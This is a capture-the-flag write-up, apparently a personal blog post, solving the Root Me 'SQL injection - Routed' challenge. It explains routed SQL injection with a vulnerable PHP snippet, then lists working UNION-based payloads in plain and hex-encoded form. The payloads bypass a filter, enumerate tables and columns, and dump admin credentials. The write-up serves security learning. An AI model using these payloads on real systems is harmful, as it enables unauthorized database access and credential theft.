 ```yaml
---
title: "SQL injection - Routed"
tags:
    - Lab
    - Root Me
date: "2024-06-22"
thumbnail: "/assets/img/thumbnail/rootme.png"
bookmark: true
---
```

## Description

Retrieve the administrator password.

Routed SQL injection !!!! 
First time hear about it so i search about it to see what is itand i found that thsi is a
situation where the injectable query is not the one which gives output but the output of injectable query goes to the query which gives output.
 let's look to this snnipet of code to understand more 

 ```php
 <?
 $id=$_GET['id'];

 $query="SELECT id,sec_code FROM users WHERE id='$id'";
 
if (!$result=mysql_query($query,$conn))
   die("Error While Selection process : " . mysql_error());
if(mysql_num_rows($result) == 0)
		die();

$row = mysql_fetch_array($result, MYSQL_ASSOC);

$query="SELECT username FROM users WHERE sec_code='".$row['sec_code']."'";

echo "<br><font color=red>This is the query which gives you Output : </font>$query<br><br>";

if (!$result=mysql_query($query,$conn)) 
 die("Error While Selection process : " . mysql_error());

if(mysql_num_rows($result) == 0)
		die("Invalid Input parameter");
   
   $row = mysql_fetch_array($result, MYSQL_ASSOC);
    		echo 'Username is : ' . $row['username'] . "<br>";?>
 ```

The magic here is that - the output of the first query is used as the input of the second query and it is the second query which displays output back to us. Or in other words, in order to exploit the SQL Injection vulnerability, we need to control the input for the second query - the variable sec_code (which happens to be the output of the first query). You may have already noticed that, due to the fact that the first query is vulnerable to SQL Injection, we can control and set sec_code to an arbitrary value

## Routed Challange

<a href="http://challenge01.root-me.org/web-serveur/ch49/">Challange Link</a>
<a href="https://cryptii.com/pipes/hex-decoder/">Hex decoder</a>

Let's exploit our challange:
 starting by confirming that it is vulnerable to SQL Injection by sending a single quote ' as payload:

<img src="/assets/img/rootme/routed/1.png" alt="quote">

 ok, now i ll inject simple payload `' union select 1 -- -` what this  will do??
this will escape the first SQL query and set both values, the second one (representing sec_code in our ecample) to the value 1
 
 as we said that sec_code is the output of first query and it's the input for the second query. now it has a value, the second query will run successfully and return output for the value 1

<img src="/assets/img/rootme/routed/2.png" alt="union1">

also this will happen if we set the value to 2 `' union select 2 -- -`

<img src="/assets/img/rootme/routed/3.png" alt="union2">

what if we set the second one to `True` ?? it will dump all the record in the DB yes!
So, the query would be `' union select ' or true -- - -- -` 

<img src="/assets/img/rootme/routed/4.png" alt="attack detected">

but i get an alert "Attack detected" mmmmmm there are filters !

the basic bypass to the filter, i will `HEX encode` the term that be blocked `' or true -- -` 

<img src="/assets/img/rootme/routed/5.png" alt="hex1">

<img src="/assets/img/rootme/routed/6.png" alt="hex2">

it appears that there are 3 IDs, now we can bypass the filter easily and can control the second part of the query.
let's determine how many columns by using `Order by` 
the Sql table contains 2 columns cuz when try to order by 3 , i get an error that it's unknown

payload: `' union select ' order by 3 -- - -- - ` 

payload after hexed : ` ' union select 0x27206f726465722062792033202d2d202d -- -`

<img src="/assets/img/rootme/routed/7.png" alt="orderby">

now we know that the output is [ID & Email]
if we use union select once again here we can return any output that we want
So,Let's use SQL functions like `current_user()` and `@@version`

Payload:`' union select ' union select current_user(),@@version -- - -- -`

after hex encode: `' union select 0x2720756e696f6e2073656c6563742063757272656e745f7573657228292c404076657273696f6e202d2d202d -- -`

<img src="/assets/img/rootme/routed/8.png" alt="version">

we are now in a situation that resembles a normal SQL Injection.
we want to know the name of the tables that are in the DB 

payload: `' union select ' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema = database() -- -`

after hex encode: `' union select 0x2720554e494f4e2053454c454354207461626c655f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e7461626c6573205748455245207461626c655f736368656d61203d2064617461626173652829202d2d202d -- -`

<img src="/assets/img/rootme/routed/table.png" alt="table">

the table called user has two columns, let's get the columns' names 

payloads
```bash
 -
' union select' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database() LIMIT 1, 1 -- -

after hex : ' union select 0x2720554e494f4e2053454c45435420636f6c756d6e5f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d202775736572732720414e44207461626c655f736368656d61203d2064617461626173652829204c494d495420312c31202d2d202d -- -

' union select' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = database() LIMIT 2, 1 -- -

after hex : ' union select 0x2720554e494f4e2053454c45435420636f6c756d6e5f6e616d652c206e756c6c2046524f4d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73205748455245207461626c655f6e616d65203d202775736572732720414e44207461626c655f736368656d61203d2064617461626173652829204c494d495420322c31202d2d202d -- -

```
these two payloads return columns' names `Login & Password`

Finallyyyyy, let's retrieve the admin password by using `Gorup_concat`

payload
```bash
' union select ' union  select 1,(select group_concat(login, ':' ,password) from users) -- -

after hex :' union select 2720756e696f6e202073656c65637420312c2873656c6563742067726f75705f636f6e636174286c6f67696e2c20273a27202c70617373776f7264292066726f6d20757365727329202d2d202d -- -
```
<img src="/assets/img/rootme/routed/9.png" alt="admin password">


I know it was a long write-up, but I hope it can be useful.
 See you in another one :)


















